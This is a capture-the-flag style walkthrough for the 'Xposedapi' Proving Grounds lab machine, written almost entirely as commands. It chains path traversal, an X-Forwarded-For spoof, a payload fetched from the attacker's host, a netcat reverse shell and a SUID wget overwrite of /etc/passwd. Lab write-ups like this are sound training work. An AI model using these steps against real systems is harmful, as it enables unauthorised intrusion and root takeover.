 
# Xposedapi - PG Walkthrough

## Initial Foothold

The target exposes an HTTP service on port `13337`. Enumeration and exploitation steps:

### Commands used:
```bash
curl http://192.168.186.134:13337/logs?file=../../../../../etc/passwd -H "X-Forwarded-For: localhost"

curl http://192.168.186.134:13337/update -H "X-Forwarded-For: localhost"

curl -X POST http://192.168.186.134:13337/update \
  -H "X-Forwarded-For: localhost" \
  --data '{"user":"clumsyadmin", "url":"192.168.45.171:22/shell"}'

curl -X POST http://192.168.186.134:13337/update \
  -H "Content-Type: application/json" \
  -H "X-Forwarded-For: localhost" \
  --data '{"user":"clumsyadmin", "url":"http://192.168.45.171:22/shell"}'

curl -X GET http://192.168.186.134:13337/restart -H "X-Forwarded-For: localhost"
```

Used `msfvenom` to create shell.elf, hosted it on Python web server:
```bash
sudo python3 -m http.server 22
nc -nlvp 4444
```

### Final working exploit sequence:
```bash
curl -X POST http://192.168.186.134:13337/update \
  -H "Content-Type: application/json" \
  -H "X-Forwarded-For: localhost" \
  --data '{"user":"clumsyadmin", "url":"http://192.168.45.171:22/shell.elf"}'

curl -X POST http://192.168.186.134:13337/restart -H "X-Forwarded-For: localhost"
```

Got shell.

---

## Privilege Escalation

### Found SUID `wget`:

```bash
find / -perm -u=s -type f 2>/dev/null
```

Steps:
1. Create a modified `passwd` file with a root shell user:
```
root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash
```

2. Overwrite `/etc/passwd` using SUID `wget`:
```bash
wget 192.168.45.171:22/passwd -O /etc/passwd
```

3. SSH as `root2`:
```bash
ssh root2@192.168.186.134
# password: w00t
```

---

## Git Upload Commands
```bash
git add Xposedapi.md
git commit -m "Add Xposedapi PG walkthrough with commands"
git push
```
